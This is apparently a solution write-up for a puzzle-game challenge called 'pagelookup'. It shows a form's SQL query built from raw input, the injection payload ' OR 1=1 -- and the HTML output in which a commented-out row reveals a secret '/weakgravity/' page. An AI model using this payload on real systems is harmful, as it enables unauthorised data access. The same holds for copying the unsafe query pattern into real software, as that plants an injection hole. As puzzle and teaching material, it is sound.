

# pages: `pagelookup/`

The page allows the player to retrieve some basic information about the puzzles
they managed to finish given a URL.



The goal is to use SQL injection to retrieve data about the next puzzle.
The query used for the form look like so:

```sql
SELECT * FROM pages_puzzle WHERE url = '{query}'
```

A valid query text that can be used may therefore be, for example,
`' OR 1=1 --`. This gives a query like this:

```sql
SELECT * FROM pages_puzzle WHERE url = '' OR 1=1 --'
```

The query gives the following result:


## Secret
There is a secret in the puzzle. When the form returns more than 1 result,
there is one more table row commented out in the HTML source:

```html
<tr>
    <th scope="row">7</th>
    <td>/pagelookup/</td>
    <td>March 8, 2019, 5:16 a.m.</td>
    <td>pages</td>
</tr>

<tr>
    <th scope="row">8</th>
    <td>/spacemetal/</td>
    <td>Feb. 28, 2019, 2:26 p.m.</td>
    <td>audio_spectrum</td>
</tr>


<!--
<tr>
    <th scope="row">0</th>
    <td>/weakgravity/</td>
    <td>Feb. 31, 2019, 2:43 p.m.</td>
    <td>pages2</td>
</tr>
-->
```

`/weakgravity/` is obviously the URL of the secret page.
